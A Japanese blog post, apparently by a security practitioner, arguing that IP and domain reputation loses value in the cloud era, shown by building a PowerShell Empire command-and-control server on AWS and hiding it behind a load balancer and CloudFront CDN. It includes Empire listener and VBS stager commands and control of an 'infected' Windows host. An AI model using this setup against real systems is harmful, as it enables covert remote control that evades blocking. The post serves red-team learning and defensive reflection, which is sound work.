# クラウド全盛時代のレピュテーションの虚しさ  

最近、クラウド環境が非常に一般的になってますよね。私もAzure上でブログをやってますし、AWS上でKaliサーバを立ててます。  

このクラウド上で任意のサーバを立てるというのはとても簡単で、利便性が高く素晴らしいものだと感じてます。  

しかし、こういう時代になると、セキュリティをやる身分としてはなかなか難しい世界だなぁ、とも感じてます。  
クラウドがこれだけ一般的になった時代で、IPアドレスやドメインでのレピュテーションはどこまで意味があるのか?という疑問です。

実際、こういったレピュテーションを買ったり、IOC情報をOSINTで集めたりすると、よく出会うのがCDNだったりWebHostingやIaaSホストなどのIPアドレスです。  

これについては、色々考えはあると思いますが、私としては定期的なログチェックやハンティングをするための元ネタとなるぐらいで考えておくものだと感じてます。少なくとも通信がある＝侵害とは全く言えません。  

さて、前置きが長くなりました。  
私が今回試して見ることは、じゃあ、実際にこういったことをやるのはどれぐらい簡単なのか？ということです。  
具体的には、以下のようなことを試して見たいと思います。攻撃はWindowsを対象とするため、[PowershellEmpire](https://github.com/EmpireProject/Empire)を使って見ましょう。  

* 攻撃用のホストを１台立てる
* 動的にIPが変わるような環境を作り、IPでのブロックや判定を無効化する
* CDNの背面にサーバをおくことで、ドメインを隠す(DomainFronting)

今回は、環境としてはAWSを利用していきます。  

さて、それでは初めていきましょう。  

-----
## 注意  
### これから記載する内容はあくまでも学習目的であり、攻撃等への悪用は行わないでください。試す際は自分の端末等で検証を行ってください。    
-----

## 環境の整備

それでは、まずAWS上でKaliLinuxを立てて、Empireを実行して見ましょう。  

今回使うAWSの機能を以下に書いておきます。  
また、今回の作業を行うためには独自ドメインが必要です。これもAWSのRoute53で取得可能ですが、今回はそこは記載しません。  

| 機能          | 説明                                                                                                        |
| ------------- | ----------------------------------------------------------------------------------------------------------- |
| EC2           | AWSにおける仮想マシン(VM)のことです。EC2で新しいVMを作成し起動します。                                      |
| SecurityGroup | 各VMに割り当てる通信設定です。ステートフルのため、入出力それぞれで設定します。                              |
| ELB(ALB)      | ロードバランサ機能のことです。Webサービスに関するものであれば、ALB(Application Load Balancer)を利用します。 |
| Route53    | AWSにおけるDNS機能です。                                                                                      |
| CloudFront    | AWSにおけるCDN機能です                                                                                      |

### ホストの作成

さて、まずはAWSのEC2でMarket PlaceでKali Linuxを選択し、起動します。  
Note: KaliLinux以外でもEmpireは動作しますので、他を選んでも問題ありません  


また、新しいホストを立てる際にはサイズの選択が必要となります。私は大体t2-mediumを選択しています。  
少なくとも、これを選べば動作に格段の不便はないはずです。  



その他について、まず自動割り当てパブリックIPは有効にします。
Note: これを入れないとNATホストのなどが必要となります

||
|------|

||
|------|

さらに、セキュリティグループでは、MyIPから以下のポートを開けましょう。  
- TCP:22(SSH), TCP:443(HTTPS)
Note: HTTPSは必須ではないですが、動作状況の確認のために開けておくのを推奨します。  



その他は、適宜決めて作成してください。  
作成が完了したら、該当ホストにSSHでアクセスしてください。  
`Note: SSHでアクセスする際には、kaliユーザを利用します。デフォルトパスワードは執筆時点ではなし。最新は都度確認してください。`  
さぁ、これでホストの作成は完了です。ここからはアプリのインストールを行いましょう。

### ホスト内での環境整備

以下のようにaptを使ってgitその他をインストールします。  

```bash
sudo su
apt update
apt install git vim tmux
```
Note: git以外は必須ではないですが、まぁあって困ることはないと思います

インストールが完了したら、次にempireをダウンロードし、setupを実行します。

```bash
git clone https://github.com/EmpireProject/Empire ./empire
cd empire/setup
./install.sh
./cer.sh
```

データベースパスワードの設定などありますので、適宜決めてください(デフォルトはランダムであり、これで問題ないと思います)  

さて、これでempireは作成できましたので、起動します。  
```bash
# empireフォルダ内での実行想定
./empire
```

これで、まずは準備が整いました。  

### 該当ホストのEIPとDNS設定

ここまでに行った作業でのVMがもつグローバルIPは、動的なものであり、該当ホストを停止して起動すると、別のIPに変更されます。  
これだと使いづらいため、一般にはEIP(ElasticIP)を取得して利用しますが、これは有償であり、必須のものではないため、ここでは説明しません。  
次に、このIPアドレスに対するAレコードをRoute53のマイドメインにおけるホストゾーンで設定します。  



まぁ、これは正直必要ないのですが、この後のALBの時は必須なのでついでに作成しましょう。  
設定後、反映されるのには若干の時間が必要です。  

さて、これでホストに関する設定は完了です。  

### Empireの設置

Empireでは、HTTPSのC2を作成します。  
これについては、Empireのgithubを見るのが一番いいように思いますが、シンプルな作成コマンドを以下に記載します。  

```bash
listeners
uselistener http
# 証明書のパス。defaultはempireのデータフォルダ。
set certPath /opt/empire/data
set Port 443
set Name https
set Host https://fugafuga.tech-oshiba.com:443
execute
```
Note: empireのインストールフォルダは、/opt/empireの例  
Note: ホスト名はfugafuga.tech-oshiba.comの例  

このホスト名はこれから変わりますが、とりあえずこれでC2の起動は完了です。この状態でアクセスして見ると、HTTPSでアクセス可能です。また、その際はIISのホームのようになっています。  

|  |
| -------------------------------------------------------------- |

これで、Empireの準備はほぼ完了ですので、この後はELBとCDNのアクセスを試していきましょう。  

### ALB(ELB)の設定

まずは、ALBの設定をしましょう。  
これは、Elastic Load Balancer(ロードバランサ機能)であり、これを設定するためには最低限サブネットが２つ必要なります。  
なので、作成したVPCにおいてサブネットを１つしか作ってないなら、もう１つ作りましょう。EC2(VM)は必要ありません。  

ロードバランサの作成でALB(Application Load Balancer)を選択し、以下で作成します。  
- Scheme : internet-facing
- IP address type : IPv4
- Networkmapping
  - VPC : KaliVMをデプロイしたVPCを選択
  - Mapping : 作成したサブネットを２つ選択(１つはKaliVMをデプロイしたサブネットであること)
- SecurityGroup
  - Inbound : HTTPS(0.0.0.0/0)
  - Outbound : 全てのトラフィック(0.0.0.0/0)
- Listeneers and routing
 - Porotol(port) : HTTPS(443)
 - target groupの作成
  - target type : Instances
  - Protocol(Port) : HTTPS(443)
  - VPC : KaliVMをデプロイしたVPCを選択
  - Protocol version : HTTP1
  - Register targets : KaliVMのinstanceを追加

これ以外にも設定はありますが、これらを設定すれば大まかには問題なく動作すると思います。  
その後、本ALB経由でアクセスする際に利用するサブドメインを決定し、証明書設定を行ってください。  
私は基本的にはACMを使い、DNSで認証をしています。この際にはCNAMEの設定が追加で必要なことに注意してください。

|  |
| ----------------------------------------------------------------------- |

ここまで設定後、ホストのセキュリティグループで、HTTPSの通信許可を１つ追加します。その際に、fromをセキュリティグループで指定できますので、
ALBのセキュリティグループからの通信を許可します。  

|  |
| ----------------------------------------------------------------------- |

さて、これでALB経由のHTTPS通信が可能となります。ここでは証明書も問題なく動作しています。(また、Lets EncryptではなくAmazon発行の証明書になってますね)  

|  |
| ------------------ |

### この時点で、ALBはIPアドレスが動的であり、IPベースでのレピュテーションやブロックはほぼ意味を無くします。  

ただ、ここから次にCDNを利用した通信を追加していきましょう。  

### CDN設定

CDN設定をする上で重要なことは以下の3つです。  
- オリジンとの通信をHTTPSにするため、証明書エラーがないようにする必要があります(具体的にはALBで指定した証明書と同じ名称で設定が必要です)
- キャッシュは無効化が必須です
- Cookieはフォワードが必須です

さて、これに沿って設定をしていきましょう。

以下が設定画面です。ちなみに私はELB経由のアクセスに利用するドメイン名としては、以下を作成しました。
- front.tech-oshiba.com

さて、重要な設定を以下に記載します。  
- オリジンドメイン: front.tech-oshiba.com
- プロトコル: HTTPSのみ
- パスパターン: デフォルト(*)
- オブジェクトを自動圧縮: No
- ビューワープロトコルポリシー: HTTPS only
- 許可されたHTTPメソッド: GET,HEAD,OPTIONS,PUT,POST,PATCH,DELETE
- ビューワーのアクセスを制限する: No
- キャッシュキーとオリジンリクエスト: Legacy cache settings
  - ヘッダ: すべて
  - クエリ文字列: すべて
  - cookie: すべて

||
|:-:|

||
|:-:|

||
|:-:|

ここまでやると、設定は完了です！
では、cloudfront経由でのアクセスをしてみましょう。  
ドメイン名はディストリビューションの画面に表示されています。

|  |
|:-:|

実際にアクセスすると、さっきと同じようにIISのホームのような画面になっていますね。  

|  |
|:-:|

このテスト環境では、dn2kjz1y9hbu5.cloudfront.netがドメイン名ですね。  
ここまできたら、環境はほぼ完成です。今度は、このドメイン名を使って、empireでlistenerを作り直してください。  

その後、stagerの作成をしましょう。  
作成するstagerはなんでもいいですが、わかりやすいのでlauncher/vbsで作成して、実行をしてみます。  

```bash
usestager windows/launcher_vbs https
generate
# /tmp/launcher.vbsというファイルが作成されるため、これを対象のwindowsマシンで実行
```

さて、これを実行すると実際にempireの接続ができます。  
まぁ、calcの起動ぐらい試すのであれば、以下のコマンドで行えます。  
```bash
# TX72A3L5は、接続時にランダムで割り当てられる感染端末のIDです  
interact TX72A3L5
shell calc
```

shellで以下のように表示されていたら、接続完了です。  

|  |
|:-:|

実際の通信を見てみましょう。まぁ想定通りにCDNを経由してます。  

|  |
|:-:|

さて、これでCDNを介してEmpireから感染端末を操作するということが実現できました。  
この１記事で書き切れるぐらい、まぁ簡単に設定できます。実際にデプロイ全体は1時間もかけずに行えます。  

## 最後に

私は今回、AWSを使いましたが、実環境では使われるCDNは他が多いように感じます。  
ちなみに、サーバについてもAWSもありますが、それよりは他のサーバホスティング系などが多いようにも感じます。  
この辺りは悪用されているホストに関する管理や調査、必要に応じたテイクダウンなどもあるのでしょう。
Note: AzureではCloudFronting対策としてどのようなことをやっているのか、ということを書いてるページなんかもあります。  

しかしまぁ、これだけ簡単にサーバのデプロイができる環境下で、果たしてレピュテーションにどこまで意味があるのか、ということはやはり疑問が湧いてきます。  

上に書いた通り、私としてはレピュテーションは気づくためのきっかけ、ハンティングをするためのツールの１つくらいで考えるのが良いと感じています。  

こういったことが改善される新たな共有情報が出て、ネット空間が安全になることを期待して今回は終わりとします。  

##### ありがとうございました!!
